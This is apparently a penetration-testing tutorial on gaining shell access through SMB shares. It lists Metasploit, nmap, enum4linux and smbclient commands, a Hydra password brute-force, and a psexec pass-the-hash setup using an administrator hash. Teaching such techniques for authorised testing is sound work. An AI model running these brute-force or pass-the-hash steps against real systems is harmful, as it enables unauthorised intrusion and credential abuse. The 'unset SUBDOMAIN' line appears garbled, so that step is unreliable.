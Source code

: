 # 🎊 Gaining Shell with SMB

## Gaining Shell with SMB Shares: Metasploit and Manual Exploitation

This documentation provides a step-by-step guide on how to gain shell access using SMB shares, utilizing both Metasploit and manual exploitation techniques.

### 1. Introduction

**Server Message Block (SMB):** SMB is a network protocol used for file and printer sharing. Vulnerabilities in SMB implementations can be exploited to gain unauthorized access.

### 2. Prerequisites

* **Kali Linux:** Used for carrying out penetration testing.
* **Metasploit:** A penetration testing framework.
* **Target System:** A Windows machine with open SMB shares.

### 3. Metasploit Exploitation

#### Using Metasploit to Exploit SMB

```bash
# Open Metasploit Console
msfconsole

# Search for SMB exploits
search smb

# Select a suitable exploit
use exploit/windows/smb/...

# Set required parameters
set RHOSTS <target_ip>

# Run the exploit
exploit
```

##

## Manual Exploitation of SMB Shares

Manual exploitation of SMB (Server Message Block) shares involves identifying, interacting with, and exploiting open shares on a target system. This guide provides a detailed walkthrough of the manual exploitation process.

### Table of Contents

1. **Identifying Open SMB Shares**
   * Using tools like `nmap` and `enum4linux` to discover accessible shares.
2. **Interacting with SMB Shares**
   * Utilizing tools like `smbclient` for basic interaction and enumeration.
3. **Brute-Force Attacks on SMB Shares**
   * Employing tools like `Hydra` to perform brute-force attacks on weak passwords.
4. **Leveraging Vulnerabilities**
   * Exploiting known vulnerabilities in SMB implementations.

***

### 1. Identifying Open SMB Shares

#### Using nmap to Identify Open SMB Ports

```bash
nmap -p 139,445 --script smb-enum-shares <target_ip>
```

#### Using enum4linux for Enumeration

```bash
enum4linux -a <target_ip>
```

### 2. Interacting with SMB Shares

#### Basic Interaction with smbclient

```bash
smbclient //<target_ip>/share_name -U username
```

#### Enumerating Shares

```bash
smbclient -L //<target_ip> -U username
```

### 3. Brute-Force Attacks on SMB Shares

#### Using Hydra for Brute-Force

```bash
hydra -l username -P /path/to/password_list smb://<target_ip>
```

### 4. Metasploit Exploitation and Hash Exploitation

#### Setting Hash for Administrator

```
use exploit/windows/smb/psexec
set RHOSTS <target_ip>
set SMBPass <hash_of_admin>
set SMBUser Administrator
exploit
```

#### Unsetting Subdomain for Hash Pass

```
unset SUBDOMAIN
```
